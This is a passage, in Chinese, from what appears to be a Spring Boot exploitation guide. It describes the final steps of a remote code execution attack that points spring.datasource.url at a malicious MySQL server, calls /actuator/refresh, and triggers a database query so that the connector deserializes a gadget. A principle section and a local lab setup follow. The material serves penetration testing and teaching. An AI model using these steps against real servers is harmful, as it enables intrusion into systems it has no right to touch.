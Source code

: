 ```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



##### 步骤五：触发数据库查询

尝试访问网站已知的数据库查询的接口，例如： `/product/list` ，或者寻找其他方式，主动触发源网站进行数据库查询，然后漏洞会被触发



##### 步骤六：恢复正常 jdbc url

反序列化漏洞利用完成后，使用 **步骤三** 的方法恢复 **步骤一** 中记录的 `spring.datasource.url` 的原始 `value` 值



#### 漏洞原理：

1. spring.datasource.url 属性被设置为外部恶意 mysql jdbc url 地址
2. refresh 刷新后设置了一个新的 spring.datasource.url 属性值
3. 当网站进行数据库查询等操作时，会尝试使用恶意 mysql jdbc url 建立新的数据库连接
4. 然后恶意 mysql server 就会在建立连接的合适阶段返回反序列化 payload 数据
5. 目标依赖的 mysql-connector-java 就会反序列化设置好的 gadget，造成 RCE 漏洞



#### 漏洞分析：

​	[New-Exploit-Technique-In-Java-Deserialization-Attack](https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf)



#### 漏洞环境：

> 需要配置 application.properties 中的 spring.datasource.url、spring.datasource.username、spring.datasource.password，保证可以正常连上 mysql 数据库，否则程序启动时就会报错退出

[repository/springboot-mysql-jdbc-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-mysql-jdbc-rce)

正常访问：

```
http://127.0.0.1:9097/actuator/env
```

发送完 payload 后触发漏洞：

```
http://127.0.0.1:9097/product/list
```
